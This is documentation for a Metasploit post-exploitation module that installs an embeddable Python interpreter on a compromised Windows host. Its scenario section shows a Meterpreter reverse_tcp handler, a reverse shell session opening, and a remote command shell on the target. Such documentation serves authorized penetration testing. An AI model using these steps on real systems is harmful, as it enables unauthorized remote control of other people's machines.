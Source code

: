 ## Overview

This module downloads an embeddable Python3 distribution onto the target
file system, granting pentesters access to a lightweight Python
interpreter. This module does not require administrative privileges or
user interaction with installation prompts.
This is useful in cases where the in-memory python interpreter might
be limited.  If you only want to run a python script while connected,
see https://github.com/rapid7/metasploit-framework/wiki/Python-Extension.

## Tested Version
This module has been tested against:

1. Windows 10, 1903

## Verification Steps

  1. Start msfconsole
  2. Get a Meterpreter session
  3. Do: `use post/windows/manage/install_python`
  4. Do: `set SESSION #`
  5. Optional Do: `set PYTHON_VERSION`
  6. Optional Do: `set PYTHON_URL`
  7. Optional Do: `set FILE_PATH`
  8. Do: `run`


## Options
  **PYTHON_VERSION**

  Specifies the Python version you would like to download. Downloads Python version 3.8.2 by default.

  **PYTHON_URL**

  Specifies the URL used to download the Python embeddable zip file.

  **FILE_PATH**

  Specifies the directory to place the Python embeddable zip file.
  Places Python zip file in the current working directory by default.

  **CLEANUP**

  If true, this option will delete the Python zip file as well as its extracted contents. It will also terminate running processes with name 'python', as you cannot delete the Python interpreter if it is actively running.

## Scenarios

Get initial access: Create a Meterpreter exe using msfvenom, then transfer it to the target system via web server, SMB, etc. Execute the payload to get a session.

    msf5 > handler -H 0.0.0.0 -P 4444 -p windows/meterpreter/reverse_tcp
    [*] Payload handler running as background job 0.

    [*] Started reverse TCP handler on 0.0.0.0:4444 
    msf5 > 
    [*] Sending stage (180291 bytes) to 192.168.13.129
    [*] Meterpreter session 1 opened (192.168.13.130:4444 -> 192.168.13.129:50069) at 2020-03-04 20:32:59 -0500

Use the post module to install Python on the target filesystem

    msf5 > use post/windows/manage/install_python 
    msf5 post(windows/manage/install_python) > set SESSION 1
    SESSION => 1
    msf5 post(windows/manage/install_python) > exploit 

    [*] Downloading Python embeddable zip from https://www.python.org/ftp/python/3.8.2/python-3.8.2-embed-win32.zip
    [+] Compressed size: 1112
    [*] Extracting Python zip file: .\python-3.8.2-embed-win32.zip
    [+] Compressed size: 952
    [*] Ready to execute Python; spawn a command shell and enter:
    [+] .\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    [!] Avoid using this python.exe interactively, as it will likely hang your terminal; use script files or 1 liners instead
    [*] Post module execution completed

Verify Python works

    msf5 post(windows/manage/install_python) > sessions -i 1 
    [*] Starting interaction with 1...

    meterpreter > shell
    Process 2688 created.
    Channel 5 created.
    Microsoft Windows [Version 10.0.17763.1039]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Users\buddha\AppData\Local\Temp>.\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    .\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    Hello, world!

Note that running this Python interpreter interactively may hang your command shell.

